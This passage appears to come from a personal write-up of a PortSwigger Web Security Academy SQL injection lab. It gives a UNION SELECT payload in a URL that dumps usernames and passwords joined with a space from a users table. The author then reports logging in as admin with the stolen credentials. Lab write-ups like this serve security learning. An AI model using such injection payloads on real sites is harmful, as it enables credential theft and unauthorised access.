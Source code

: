 ```
PostgreSQL 12.14
```

So the final query, which i got also from the [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to get what i came for:   
```sql
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,username||' '||password+FROM+users--
```
Where `space` is the delimiter for those two values      

And got em:   

![](res/portSwigLab-18.png)

Took the admin credentials and went to log in:    

![](res/portSwigLab-20.png)
